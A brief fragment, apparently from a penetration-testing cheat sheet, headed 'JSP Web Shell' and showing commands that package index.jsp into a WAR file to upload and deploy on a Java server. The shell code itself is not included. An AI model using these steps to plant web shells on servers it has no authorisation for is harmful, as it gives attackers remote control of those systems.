 ### JSP Web Shell
We can use it to upload war file and deploy it:
```
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```
